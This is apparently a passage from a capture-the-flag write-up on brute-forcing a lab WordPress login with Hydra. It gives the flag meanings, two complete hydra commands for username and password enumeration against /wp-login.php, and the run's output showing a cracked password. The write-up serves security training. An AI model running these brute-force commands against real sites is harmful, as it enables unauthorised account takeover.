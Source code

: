 | File          |     Size |   Lines | Est (@845/min) | Est (@1745/min) |
| ------------- | -------: | ------: | :------------: | :-------------: |
| `fsocity.dic` | 7,075 KB | 858,160 |     17 hrs     |      8 hrs      |
| `new.txt`     |    94 KB |  11,451 |    13 mins     |    6.5 mins     |


So, `new.txt` is the reorganized file I'll be working with. Next, I didn't really think of this. I was assuming based on the TV show, the username might be "elliot". However, since this Wordpress installation shows verbose messages, we can use `hydra` to test for possible usernames and for possible passwords.

You might remember for Hydra that:

<fieldset>
<legend>Hydra Arguments</legend>
<dl>
<dt><code>-L</code></dt>
<dd>Use a wordlist for the username (e.g. <code>hydra -L ./wordlist.txt ...</code>).</dd>
<dt><code>-l</code></dt>
<dd>Use a single, specific username (e.g. <code>hydra -l jdoe ...</code>).</dd>
<dt><code>-P</code></dt>
<dd>Use a wordlist for the password (e.g. <code>hydra -P ./wordlist.txt ...</code>).</dd>
<dt><code>-p</code></dt>
<dd>Use a single, specific password (e.g. <code>hydra -p password ...</code>)</dd>
</dl>
</fieldset>

#### Hydra for usernames

Keeping that in mind, we want to first use a **fixed password** and our **wordlist for potential usernames**:

```bash
hydra -L ./new.txt -p test \
    10.10.10.10 http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -I 2>&1 | tee $ROOM/hydra-usernames.log
```

#### Hydra for passwords

From this effort, we see the username "Elliot" in various casing, so it's probably case-insenstive. Now, let's flip it around, use **"elliot" for a username** and the **wordlist for the password**:

```bash
hydra -l elliot -P ./new.txt \     
    10.10.10.10 http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -I 2>&1 | tee $ROOM/hydra-passwords.log
```

It took about :15 minutes but we were able to get the password:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-12 23:14:38
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-form://10.10.83.180:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered
[STATUS] 1745.00 tries/min, 1745 tries in 00:01h, 9707 to do in 00:06h, 30 active
[STATUS] 1136.67 tries/min, 3410 tries in 00:03h, 8042 to do in 00:08h, 30 active
[STATUS] 845.00 tries/min, 5915 tries in 00:07h, 5537 to do in 00:07h, 30 active
[STATUS] 723.67 tries/min, 8684 tries in 00:12h, 2768 to do in 00:04h, 30 active
[80][http-post-form] host: 10.10.83.180   login: elliot   password: *********
1 of 1 target successfully completed, 1 valid password found
```